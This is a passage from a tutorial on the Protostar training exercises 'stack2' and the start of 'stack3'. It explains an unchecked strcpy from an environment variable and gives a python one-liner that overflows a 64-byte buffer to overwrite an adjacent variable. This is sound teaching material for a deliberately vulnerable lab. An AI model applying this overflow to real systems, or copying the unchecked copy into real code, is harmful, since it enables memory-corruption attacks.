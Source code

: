```c
    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

This exercise is very similar to the one before but carries a certain nuance. Let's look at the documentation for the `getenv()` function if you don't know about it. This function searches the environment variable list for a variable named `name`, and returns a pointer to the corresponding string value. In the above case, our program is vulnerable at the line:

```
strcpy (buffer, variable);
```

Do you know why? Following this code, our program retrieves what our environment variable "GREENIE" contains and puts everything in buffer without checking the size. So let's exploit this using the below schema.

```
GREENIE = [PADDING OF 64] [0x0d0a0d0a]
```

```bash
cd /opt/protostar/bin/
GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
export GREENIE
echo $GREENIE
./stack2
```

**Output**

![image-13](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-13.png "Image-13")

* * *

###### FOURTH EXERCISE "STACK THREE"

This exercise will be the last one we will see in this article, here is the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (* fp)();
    char buffer[64];

    fp = 0;
```